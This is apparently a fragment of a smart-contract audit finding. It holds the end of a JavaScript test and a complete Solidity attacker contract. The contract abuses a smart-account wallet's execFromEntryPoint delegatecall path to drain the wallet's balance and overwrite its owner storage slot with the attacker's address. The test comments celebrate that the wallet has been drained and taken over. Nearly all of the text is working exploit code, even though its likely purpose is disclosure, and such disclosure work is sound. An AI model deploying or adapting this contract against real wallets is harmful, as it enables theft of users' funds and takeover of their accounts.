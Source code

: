 ```js
    // we have now drained the wallet and we're the owner!
    expect(await attacker.getBalance()).eq(BigNumber.from(3000).add(attackerStartBalance));
    const afterAttackSmartAccountOwner = await userSmartAccount.owner();
    
    expect(afterAttackSmartAccountOwner).eq(attackerAddress); // we are the owner !!
  });
});
```

Attacker Contract
```solidity
pragma solidity ^0.8.12;

import "./EntryPoint.sol";

contract AttackerEntryPoint is EntryPoint {
    address immutable public attacker;
    constructor() {
        attacker = msg.sender;
    }
    function poisonedWithdrawToOutowner() public {
        (bool req,) = payable(attacker).call{value : address(this).balance}("");
        require(req);
    }
    function takeUserWalletControlAndDrainCurrentFundsIfAvailable(address walletToTakeOverAndDrain) external {
        ISmartAttack(walletToTakeOverAndDrain).execFromEntryPoint(
            address(this), 
            0, 
            abi.encodeWithSelector(this.attackTheDelegate.selector, ""), 
            ISmartAttack.Operation.DelegateCall, 
            gasleft()
        );
    }
    function attackTheDelegate() external {
        // first we drain the current balance of the wallet        
        if(address(this).balance > 0) {
            poisonedWithdrawToOutowner();
        }

        // we update the current owner to us 
        // from now we can use the onlyOwner functions and can eg directly drain tokens via transfer, pullTokens, execute, .... 
        address _attacker = attacker;
        assembly {
            sstore(52, _attacker) // owner is on storage slot 52
        }
    }
}
interface ISmartAttack {
    enum Operation {Call, DelegateCall}
    function execFromEntryPoint(address dest, uint value, bytes calldata func, Operation operation, uint256 gasLimit) external returns (bool success);    
}
```
